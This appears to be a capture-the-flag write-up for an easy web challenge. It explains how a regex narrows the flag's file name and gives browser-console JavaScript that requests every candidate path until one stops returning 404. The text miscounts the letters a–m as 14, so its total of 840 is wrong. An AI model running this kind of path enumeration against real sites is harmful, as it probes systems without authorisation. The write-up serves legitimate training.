 # Brute Force
# Web: Easy/Medium

Based on the regex formatting, the unknown part of the flag contains 4
characters: a letter from a to m, followed by one of "aqc", followed by one of
"zm", followed by a digit.

Calculating the number of possibilities, we have 14 * 3 * 2 * 10 = 840 possible
filenames, which is a very small number, so we can simply brute force all 
possible filenames until we reach one that does not return a 404. 

Here, you may use whatever language or tool you want, but I like to open up the
browser devtools and write a JavaScript right on the page. Here's my solution
code; it's not the fastest (since we are only waiting on one request at a time)
but it's fast enough for this use case.

```javascript
async function tryFilename(filename) {
    const resp = await fetch(location.origin + "/" + filename);
    return resp.ok;
}

for(let a of "abcdefghijklm".split('')) {
    for(let b of "aqc".split('')) {
        for(let c of "zm".split('')) {
            for(let d of "1234567890".split('')) {
                const filename = "flag" + a + b + c + d + ".txt";
                if(await tryFilename("flag" + a + b + c + d + ".txt")) {
                    alert("found filename: " + filename);
                }
            }
        }
    }
}

```